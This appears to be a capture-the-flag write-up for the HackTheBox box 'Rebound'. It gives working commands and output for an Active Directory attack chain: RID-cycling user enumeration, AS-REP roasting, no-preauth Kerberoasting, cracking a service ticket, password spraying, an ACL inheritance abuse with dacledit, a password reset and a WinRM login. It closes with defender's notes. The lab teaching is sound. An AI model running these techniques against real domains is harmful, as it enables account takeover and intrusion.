

Rebound is a hard Active Directory box, and this writeup takes it to the user flag. The theme is Kerberos: a RID-brute user list feeds an AS-REP roast that unlocks a password-free Kerberoast, a cracked service ticket is reused across accounts, and a two-step ACL chain — joining a group, then forcing an ACE to inherit down an OU — resets a service account we can log in as.
Attack chain at a glance
- Recon — full DC port set on
rebound.htb; guest can readIPC$/Shared. - User list — RID cycling through the guest session enumerates every account.
- Kerberos —
jjoneshas pre-auth disabled (AS-REP roastable); using it as a no-pre-auth principal, Kerberoast the SPN accounts and crackldap_monitor. - Reuse — that password is reused by
oorend(spray). - ACL chain — oorend self-adds to
ServiceMgmt(GenericAll over the Service Users OU); force an inheritable ACE down the OU withdacledit, then resetwinrm_svc; WinRM in for the user flag.
Reconnaissance
ports=$(nmap -Pn -p- --min-rate=10000 -T4 10.129.232.31 | grep ^[0-9] | cut -d / -f1 | paste -sd,)
nmap -Pn -p$ports -sC -sV 10.129.232.31
88/tcp kerberos-sec Domain: rebound.htb, DC01
389/tcp ldap
445/tcp microsoft-ds (signing: True, required)
5985/tcp http WinRM
|_ clock-skew: mean: 7h00m16s <- fix clock skew before KerberosA seven-hour clock skew will break every Kerberos request (KRB_AP_ERR_SKEW). Sync to the DC first — e.g.sudo ntpdate 10.129.232.31orfaketime— or nothing below works.
Enumeration — RID cycling for users
Guest can bind to SMB but the readable shares are empty. The win is that a null/guest session is still enough to walk the RID space: domain SIDs are sequential, so cycling RIDs from 500 upward resolves each one to an account name. That hands over the full user list with no credentials:
netexec smb 10.129.232.31 -u guest -p '' --shares # IPC$, Shared readable (empty)
ridenum 10.129.232.31 500 20000 Guest ''
Domain Sid: S-1-5-21-4078382237-1492182817-2568127209
Administrator Guest krbtgt DC01$
ppaul llune fflock jjones mmalone nnoon
ldap_monitor oorend winrm_svc batch_runner tbrady delegator$Kerberos — AS-REP roast into a no-pre-auth Kerberoast
With a user list and no passwords, the first thing to test is pre-authentication. Any account with “Do not require Kerberos pre-authentication” set can have an AS-REP requested and cracked offline. Here jjones is flagged:
impacket-GetNPUsers -usersfile reboundusers.txt rebound.htb/ -dc-ip 10.129.232.31
...
$krb5asrep$23$jjones@REBOUND.HTB:bd423d7c...<hash>...
[-] <everyone else> doesn't have UF_DONT_REQUIRE_PREAUTH setThe jjones AS-REP does not crack — but it does not need to. An account that requires no pre-authentication can act as the requesting principal for a TGS request without proving its own password. Impacket's GetUserSPNs -no-preauth uses exactly that trick to Kerberoast every SPN account in the domain, entirely unauthenticated:
impacket-GetUserSPNs -no-preauth jjones -usersfile reboundusers.txt \
-dc-host 10.129.232.31 rebound.htb/
$krb5tgs$23$*ldap_monitor$REBOUND.HTB$ldap_monitor*$...
$krb5tgs$18$*DC01$...
$krb5tgs$18$*delegator$...
$krb5tgs$18$*krbtgt$...The RC4 (etype 23) ticket for ldap_monitor is the crackable one; the AES (etype 18) tickets for machine accounts are not worth the effort. Hashcat mode 13100 is TGS-REP:
hashcat -m 13100 ldap_monitor_hash /usr/share/wordlists/rockyou.txt
$krb5tgs$23$*ldap_monitor$REBOUND.HTB$...:1GR8t@$$4u
Status...........: CrackedPassword reuse → oorend
ldap_monitor authenticates over SMB, and a Kerberos/LDAP bind works too, so a full BloodHound collection runs. Reused passwords are the oldest AD sin, so spray the recovered one across the whole user list — oorend shares it:
nxc smb 10.129.232.31 -u ldap_monitor -p '1GR8t@$$4u'
[+] rebound.htb\ldap_monitor:1GR8t@$$4u
nxc ldap 10.129.232.31 -d rebound.htb -u ldap_monitor -p '1GR8t@$$4u' \
--bloodhound --collection All -k --dns-server 10.129.232.31
nxc smb 10.129.232.31 -u reboundusers.txt -p '1GR8t@$$4u' --continue-on-success
[+] rebound.htb\ldap_monitor:1GR8t@$$4u
[+] rebound.htb\oorend:1GR8t@$$4u
oorend can join ServiceMgmt, which has GenericAll over the Service Users OU that contains winrm_svc.ACL chain — group self-add, then forced inheritance
BloodHound reveals a two-hop path. First, oorend can add itself to the ServiceMgmt group, and that group has full control over the Service Users OU:
powerview rebound.htb/oorend:'1GR8t@$$4u'@dc01.rebound.htb --web
Add-DomainGroupMember -Identity "SERVICEMGMT" -Members oorend
[+] User oorend successfully added to SERVICEMGMTThe catch is inheritance. Full control over an OU does not automatically mean full control over the user objects inside it — by default those child objects do not inherit the OU's ACEs. But because we control the OU, we can add a new ACE and mark it inheritable, so it flows down to the objects beneath, including winrm_svc. Impacket's dacledit writes exactly that inheritable FullControl ACE:
impacket-getTGT 'rebound.htb'/'oorend':'1GR8t@$$4u' -dc-ip rebound.htb
export KRB5CCNAME=oorend.ccache
dacledit.py -k -no-pass -action write -rights FullControl \
-principal oorend -target-dn 'OU=Service Users,DC=rebound,DC=htb' \
-inheritance 'rebound.htb'/'oorend' -use-ldaps -dc-ip rebound.htb
[*] DACL backed up to dacledit-...bak
[*] DACL modified successfully!The clean, OPSEC-safe way to abuse control over a user is Shadow Credentials — write a certificate to msDS-KeyCredentialLink and authenticate via PKINIT, which never changes the victim's password. This writeup took the simpler, louder route of a direct password reset; in a real engagement prefer the certificate path.
With inherited control over winrm_svc, reset its password and use the WinRM service it is named for to grab the user flag:
bloodyAD -d rebound.htb -k --host dc01.rebound.htb set password winrm_svc 'Password@1'
[+] Password changed successfully!
evil-winrm -i dc01.rebound.htb -u winrm_svc -p 'Password@1'
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> type user.txtThat is the user flag. From here root continues via the delegator$ ticket recovered earlier and a Shadow-Credentials / Certipy step against the DC — out of scope for this writeup, which stops at user as requested.
Defender's notes
- Disable guest/null SMB so RID cycling cannot harvest your user list.
- Never set “do not require pre-authentication” (AS-REP roasting); it also enables the no-pre-auth Kerberoast pivot used here.
- Give service accounts long, random passwords (25+ chars) so Kerberoast tickets are uncrackable, and prefer gMSAs (Kerberoasting).
- Forbid password reuse across accounts.
- Audit control over OUs and groups; remember inheritance can be toggled on by anyone with write access to the OU's DACL (ACLs & DACLs).